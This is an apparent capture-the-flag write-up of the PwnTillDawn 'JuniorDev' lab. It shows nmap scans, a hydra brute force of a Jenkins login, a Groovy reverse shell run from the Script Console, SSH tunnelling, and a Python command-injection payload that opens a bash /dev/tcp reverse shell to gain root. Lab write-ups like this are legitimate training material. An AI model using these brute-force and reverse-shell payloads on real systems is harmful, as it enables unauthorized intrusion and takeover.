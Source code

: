 ```yaml
---
title: "PwnTillDawn - JuniorDev"
author: Nasrallah
description: ""
date: 2022-09-21 00:00:00 +0000
categories : [PwnTillDawn]
tags: [pwntilldawn, linux, jenkins, hydra, bruteforce, commandinjection, python, tunneling]
img_path: /assets/img/pwntilldawn/juniordev
---
```


---


## **Description**

Hello hackers, I hope you are doing well. We are doing [JuniorDev](https://online.pwntilldawn.com/Target/Show/63) from [PwnTillDawn](https://online.pwntilldawn.com/). The target is running a web server on a non standard port. We found a login page that we brute force to get in and then run a command for a reverse shell. Then we find another web server running internally so we use an ssh tunnel to access it. We exploit a command injection vulnerability to get root. 

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.150.150.38
Host is up (0.098s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 64:63:02:cb:00:44:4a:0f:95:1a:34:8d:4e:60:38:1c (RSA)
|   256 0a:6e:10:95:de:3d:6d:4b:98:5f:f0:cf:cb:f5:79:9e (ECDSA)
|_  256 08:04:04:08:51:d2:b4:a4:03:bb:02:71:2f:66:09:69 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found port 22 open running openssh.

We don't have any credentials and the version of ssh doesn't have any vulnerabilities.

Let's scan all ports this time with `sudo nmap --min-rate 5000 -p- 10.150.150.38`

```terminal
Nmap scan report for 10.150.150.38
Host is up (0.094s latency).
Not shown: 64506 closed tcp ports (reset), 1027 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
30609/tcp open  unknown
```

We found another service on a high port, let's run a service scan on that port.

```terminal
Nmap scan report for 10.150.150.38
Host is up (0.22s latency).

PORT      STATE SERVICE VERSION
30609/tcp open  http    Jetty 9.4.27.v20200227
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.27.v20200227)
```

The port is running a jetty web server.

### Web

Let's navigate to the web page on `http://10.150.150.38:30609/`

![](1.png)

We found a login page for Jenkins.

I tried some default credentials but no luck with that. Let's brute force the login with hydra, but first we need to intercept a login request to see what parameters we need to set.

![](2.png)

Now let's craft our command.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError"
```

Let's run the command.

![](3.png)

Got the password.

## **Foothold**

Let's login to Jenkins.

![](4.png)

Great! Now we need to get a shell. We can do that by going to `Manage Jenkins` -> `Script Console` and enter the following command.

```groovy
String host="10.10.10.10";
int port=9001;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](5.png)

Now setup a listener with `nc -lvnp 9001` and run the command.

![](6.png)

We got the shell.

## **Privilege Escalation**

Let's do some basic enumeration.

![](7.png)

We found a ssh key. Let's connect with it.

![](8.png)

I uploaded a copy of linpeas and after running it i got this.

![](9.png)

We found a service listening on port 8080 and we can't access it.

We are gonna use ssh tunneling in order to access it.

Run the following command from the attacker machine.

```bash
ssh -L 8000:127.0.0.1:8080 juniordev@10.150.150.38 -i id_rsa -fN
```

Now navigate to `127.0.0.1:8000`.

![](10.png)

We find an application that takes two numbers from us and adds them together.

We see in the title of the page `Jr.dev py example`. Which means this is a python application hens the `py` in the title.

Searching for python command injection, i found this [article](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1) which had the following command that would give us a reverse shell.

```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/10.66.66.10/9999 0>&1"')#
```

Now setup a listener and put the payload above in one of the input fields and click calculate.

![](11.png)

Great! We got a shell as root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
